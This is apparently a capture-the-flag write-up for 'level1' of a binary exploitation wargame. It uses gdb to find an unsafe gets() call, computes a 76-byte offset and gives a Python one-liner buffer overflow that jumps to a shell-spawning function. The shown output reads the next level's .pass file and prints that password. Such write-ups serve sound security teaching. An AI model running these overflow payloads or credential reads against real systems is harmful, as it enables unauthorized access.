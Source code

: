 # Level1

> For introductory information on this operating system and binary securities, check [here](./Ressources/README.md).

Let's see what does the binary do.

```shell
  $> ./level1

  $> ./level1
  randomstring
```

> Seems like this program want us to input something during its execution but it does not output anything back.

Using [`gdb`](https://linux.die.net/man/1/gdb), we can dig through the binary to understand what's going on (full analysis [here](./Ressources/gdb.md)). We find that this program is using [`gets()`](https://linux.die.net/man/3/gets) and according to the documentation there is a known bug with it...

> Never use `gets()`. Because it is impossible to tell without knowing the data in advance how many characters `gets()` will read, and because `gets()` will continue to store characters past the end of the buffer, it is extremely dangerous to use. It has been used to break computer security.

After some research the obvious path to take is to exploit this fuction to create a [buffer overflow attack](https://en.wikipedia.org/wiki/Buffer_overflow). In order to do this, we must compute the buffer offset using **data section** of our `gdb` analysis stated above, we find that the offset is **76**.

Then we need to construct a call to `run()` using this offset and the function's address.

```shell
  $> (python -c "print '\x90' * 76 + '\x08\x04\x84\x44'[::-1]") | ./level1
  Good... Wait what?
  Segmentation fault (core dumped)
```

> We append the address of `run()` in reverse (this is what `[::1]` is used for, in python it's a reverse string opperation) to respect [byte order](https://en.wikipedia.org/wiki/Endianness) after a list of **76** [NOP instructions](https://en.wikipedia.org/wiki/NOP_(code)).

Segfault still happens but we know that we are on the right track because we get into a shell but since it is executed via `system()` this time, it returns when the command is finished. Asking to open a shell is not enough to stay in it. We need to use something that does read on standard input indefinitely like [`cat`](https://man7.org/linux/man-pages/man1/cat.1.html).

```shell
  $> (python -c "print '\x90' * 76 + '\x08\x04\x84\x44'[::-1]"; cat) | ./level1
  Good... Wait what?
  cat /home/user/level2/.pass
  53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

So next user credentials pair is `level2:53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77`.

Check [here](./source.c) for reproduction source-code of this binary.